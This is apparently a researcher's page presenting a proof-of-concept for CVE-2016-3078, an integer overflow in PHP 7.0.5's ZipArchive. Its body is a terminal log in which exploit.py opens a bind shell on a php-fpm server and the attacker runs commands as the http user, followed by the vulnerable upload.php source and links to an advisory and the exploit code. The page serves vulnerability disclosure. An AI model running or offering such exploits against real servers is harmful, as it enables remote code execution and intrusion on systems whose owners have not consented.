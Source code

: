 ```yaml
---
date: 2016-04-28
---
```

# CVE-2016-3078: php 7.0.5: integer overflow in ZipArchive::getFrom*

PoC for CVE-2016-3078 targeting Arch Linux i686 running php-fpm 7.0.5
behind nginx.

```sh
$ python exploit.py --bind-port 5555 http://1.2.3.4/upload.php
[*] this may take a while
[*] 103 of 4096 (0x67fd0)...
[+] connected to 1.2.3.4:5555

id
uid=33(http) gid=33(http) groups=33(http)

uname -a
Linux arch32 4.5.1-1-ARCH #1 SMP PREEMPT Thu Apr 14 19:36:01 CEST
2016 i686 GNU/Linux

pacman -Qs php-fpm
local/php-fpm 7.0.5-2
    FastCGI Process Manager for PHP

cat upload.php
<?php
$zip = new ZipArchive();
if ($zip->open($_FILES["file"]["tmp_name"]) !== TRUE) {
    echo "cannot open archive\n";
} else {
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $data = $zip->getFromIndex($i);
    }
    $zip->close();
}
?>
```

- [Advisory](/advisories/009-php)
- [Code](https://github.com/dyntopia/exploits/tree/master/CVE-2016-3078)

